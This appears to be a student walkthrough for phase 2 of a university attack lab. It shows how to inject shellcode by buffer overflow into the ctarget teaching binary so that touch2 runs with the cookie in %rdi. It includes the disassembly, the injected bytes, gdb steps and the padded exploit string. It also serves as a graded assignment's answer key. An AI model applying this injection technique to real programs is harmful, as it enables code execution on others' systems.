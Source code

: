 Phase 2 involves injecting a little code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the rtarget and search for touch2, it looks something like this:

```
000000000040178c <touch2>:
  40178c:	48 83 ec 08          	sub    $0x8,%rsp
  401790:	89 fe                	mov    %edi,%esi
  401792:	c7 05 e0 30 20 00 02 	movl   $0x2,0x2030e0(%rip)        # 60487c <vlevel>
  401799:	00 00 00 
  40179c:	3b 3d e2 30 20 00    	cmp    0x2030e2(%rip),%edi        # 604884 <cookie>
  4017a2:	75 1b                	jne    4017bf <touch2+0x33>
  4017a4:	bf a0 30 40 00       	mov    $0x4030a0,%edi
  4017a9:	b8 00 00 00 00       	mov    $0x0,%eax
  4017ae:	e8 8d f4 ff ff       	callq  400c40 <printf@plt>
  4017b3:	bf 02 00 00 00       	mov    $0x2,%edi
  4017b8:	e8 dc 04 00 00       	callq  401c99 <validate>
  4017bd:	eb 19                	jmp    4017d8 <touch2+0x4c>
  4017bf:	bf c8 30 40 00       	mov    $0x4030c8,%edi
  4017c4:	b8 00 00 00 00       	mov    $0x0,%eax
  4017c9:	e8 72 f4 ff ff       	callq  400c40 <printf@plt>
  4017ce:	bf 02 00 00 00       	mov    $0x2,%edi
  4017d3:	e8 73 05 00 00       	callq  401d4b <fail>
  4017d8:	bf 00 00 00 00       	mov    $0x0,%edi
  4017dd:	e8 ce f5 ff ff       	callq  400db0 <exit@plt>
```

If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi." 

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called phase2.s and write the below code, replacing the cookie and return address with yours

```
  movq $0x434b4b70,%rdi /* move your cookie to register %rdi */
  pushq $0x0040178c     /* push the address of touch2 to the stack */
  retq                  /* return */
```

Now you need the byte representation of the code you wrote above. compile it with gcc then dissasemble it

```
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```

Now open the file phase2.d and you will get something like below

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 70 4b 4b 43 	mov    $0x434b4b70,%rdi
   7:	68 8c 17 40 00       	pushq  $0x40178c
   c:	c3                   	retq   
```

The byte representation of the assembly code is `48 c7 c7 70 4b 4b 43 68 8c 17 40 00 c3`

Now you need to find the address of the %rsp register and pass it as the return address since it will execute our injected code

run ctarget through gdb 
`gdb ctarget`

set a breakpoint at getbuf 
`b getbuf`

print all the registers 
`info r`

That will prnt the addresses for all registers, grab the one for rsp

Now, create a text file named phase2.txt which will look something like below
```
48 c7 c7 70 4b 4b 43 68
8c 17 40 00 c3 00 00 00 /* first 13 bytes of the 24 bytes are the injected code, the rest is just padding */
00 00 00 00 00 00 00 00
28 38 62 55 00 00 00 00 /* address of register %rsp */
```

Run it through hex2raw

`./hex2raw < phase2.txt > raw-phase2.txt`

Finally, you run the raw file

`./ctarget < raw-phase2.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
